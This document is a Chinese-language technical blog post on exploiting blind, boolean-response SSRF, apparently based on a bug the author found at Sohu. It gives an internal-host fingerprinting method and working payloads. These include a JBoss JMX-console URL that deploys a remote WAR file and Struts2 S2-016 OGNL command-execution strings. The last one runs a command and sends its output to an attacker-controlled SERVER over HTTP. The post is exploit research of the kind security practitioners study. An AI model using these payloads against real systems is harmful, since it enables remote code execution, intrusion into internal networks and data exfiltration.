 ### Bool型SSRF的思考与实践

	0x00 Bool型SSRF 
	0x01 SSRF利用的基本思路
	0x02 两者之间的区别
	0x03 Bool型SSRF利用方法
	0x04 Struts2在Bool型SSRF中的利用
	0x05 Other(想到什么写什么)

#### 0x00 Bool型SSRF
什么是Bool型SSRF, 没听说过. 其实我也没有听说过. 只是我也不知道该怎么描述就起了这样一个名称.

Bool型SSRF: 简单来说就是仅返回True 或 False的SSRF. 就以我前两天我挖掘的一个搜狐SSRF为例, 只有服务器端正确响应HTTP请求并且只有响应码为200的时候, 返回Success，其余全部返回Failed. 这就是一个典型的Bool型SSRF.

#### 0x01 SSRF利用的基本思路
Wooyun上有很多SSRF典型的案例, 可以说让人拍案惊奇. 但是没有一个关于BOOL型SSRF的利用案例(可能我没看到吧). 这次挖掘到一个搜狐的Bool型SSRF, 对于我这个只是简单理解SSRF原理没有任何实战的渣渣来说, 难度还真大. 不过想想, 以前没有接触过SSRF, 这次就把你玩透. 翻阅学习Wooyun上的案例, 了解SSRF利用的基本思路:

	内网探测 -> 应用识别 -> 攻击Payload -> Payload Result

1. 内网探测: 内网主机信息收集
2. 应用识别: 主机应用识别(可以通过Barner和应用指纹进行识别)
3. 攻击Payload: 根据应用识别的应用,加载不同的攻击Payload(最常用莫属于Struts2)
4. Payload Result: 返回相应Payload的执行信息

#### 0x02 两者之间的区别
BOOL型SSRF与一般的SSRF的区别在步骤二应用识别, 步骤三攻击Payload和步骤四Payload Result. 一般的SSRF在应用识别阶段返回的信息相对较多, 比如Banner信息, HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回, 而Bool型SSRF的却永远只有True or False. 因为没有任何Response信息, 所以对于攻击Payload的选择也是有很多限制的, 不能选择需要和Response信息交互的Payload. 在此次搜狐SSRF的中, 我分别使用了JBOSS远程调用和Struts2 S2-016远程命令执行. 对于Bool型SSRF, 我们不能说Payload打过去就一定成功执行, 就算是返回True, 也不能保证Payload一定执行成功. 所以我们要验证Payload的执行状态信息.

#### 0x03 Bool型SSRF利用方法
**应用识别**

	{ 指纹1 + 指纹2 + 黑指纹 }

以JBOSS为例: { /jmx-console/ + /invoker/JMXInvokerServlet + /d2z341.d#211 }

指纹1 和 指纹2 为应用识别指纹, 准确率越高越好. 黑指纹其实就是不会匹配任何应用的指纹，一般用较长的字符串代替即可. 分别用指纹1, 指纹2 和 黑指纹对内网主机探测统计, 获取三个主机列表: jmx-console.host(A)    invoker.host(B)    black.host(C). 

Host = (A∩B) –(A∩B∩C) 即剔除jmx-console.host 和 invoker.host中存在于black.host的主机, 然后对jmx-console和invoker.host的主机取交集.

**攻击Payload**

针对不用的应用我们需要加载不同的Payload, 但是大多数的攻击都是需要和Payload Result进行交互的. 这类Payload是没有办法用在此处的, 我们需要的是不需要和Payload Result进行交互的Payload. 我可以想到的两种应用比较广泛的Payload有JBOSS和Struts2漏洞.

JBoss Payload:

`/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system%3Aservice%3DMainDeployer&methodIndex=3&arg0=http%3A%2F%2F192.168.1.2%2Fzecmd.war`

通过JBOSS HtmlAdaptor接口直接部署远程war包, 我们可以通过access.log去验证war包是否成功部署.下面就是通过SSRF去执行不同的命令.还有一种方式,就是我们可以通过我们服务器的access.log日志获取到远程服务器对应的公网IP, 有时也会有一些意外惊喜.

Struts2 Payload:

`/action?action:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}`

Struts2漏洞的影响大家都懂的, 通过URL直接远程命令执行, 想打那里就打那里.

**Payload Result**

获取Payload Result是十分有必要的, 这里的Payload Result和非Bool型SSRF的Result不是一个意思. 对于Bool型SSRF, 服务器端返回的数据永远只有True和False, 我们是可以通过返回的True或者False来判断Payload的执行状态, 但是这样的判断标准是无法让人信服的. 能否有一种方法能够精确的判断Payload的执行状态,而且能够返回Payload Result. 对于Struts2我找到了一种可利用的方法.

#### 0x04 Struts2在Bool型SSRF中的利用
下面是S2-016的POC:

`/action.action:%25{3*4}`

`/action.action?redirect:%25{3*4}`

通过对连个POC的理解, 我们知道下面的POC中的redirect是实现URL跳转, 通过URL跳转来验证S2-016漏洞.
![Struts2-redirect](./Res/Struts2-redirect.png)

当然也可以通过 "?redirect:http://www.baidu.com" 来验证. 那么我们是否可以通过 "?redirect:http://SERVER/%25{3*4}" 将%25{3*4}的执行结果作为SERVER的URL的一部分发送到远端服务器, 通过实验我们证实了这样的想法.
![Struts2-redirect-to-remote](./Res/Struts2-redirect-to-remote.png)

下面我们尝试S2-016的命令执行POC,执行结果如下:

`?redirect:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}`

![Struts2-exec](./Res/Struts2-exec.png)

特此说明一下, 这里返回java.lang.ProcessImpl@xxxxxx表示命令执行成功, 将命令执行的结果通过redirect跳转输出到远程服务器.

`?redirect:http//SERVER/%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start()}`

![Struts2-remote-exec](./Res/Struts2-remote-exec.png)

由服务器端Access日志可以看出, 命令执行成功

![Struts2-access-log](./Res/Struts2-access-log.png)

其实通过上面的这种方式,我们已经完全能够准确的判断Payload Result的执行状态, 但是这不是我要的, 我想要Payload Result执行结果. 

带回显的POC:

`?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}`

![Struts2-ssrf](./Res/Struts2-ssrf.png)

将命令执行结果Redirect到远程:

![Struts2-ssrf2](./Res/Struts2-ssrf2.png)

我们可以看到本地浏览器可以打印出结果,但是远程Access.log不会有任何日志. 对Java懂一点点的人都知道(比如我,对Java略懂一点点), 这里的POC的作用就是本地打印,所以肯定是不行的. 下一步我们就需要更改POC , 因为对Java不熟, 为此花费了大半天的时间,写下下面的POC:

`?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}`

SERVER是我们的HTTP服务器IP地址, 我们获取命令执行结果,然后把他作为一个URL参数发送到远程SERVER上, 所以我们可以在远程SERVER的access.log看到命令的执行结果.

![Struts2-ssrf3](./Res/Struts2-ssrf3.png)

远程服务器日志:

![Struts2-ssrf4](./Res/Struts2-ssrf4.png)

至此, 我们完成了从一个BOOL型的SSRF转换为一个普通的SSRF,我们可以获取到任何Payload的执行结果, 我只能说这是一个质的飞跃.

说明: 对于文中浏览器中执行的返回信息,我们仅仅是在做测试,对于BOOL型SSRF这些信息对我们是不可见的, 我们能看到的仅仅是Server端的access.log日志.

#### 0x05 Other(想到什么写什么)

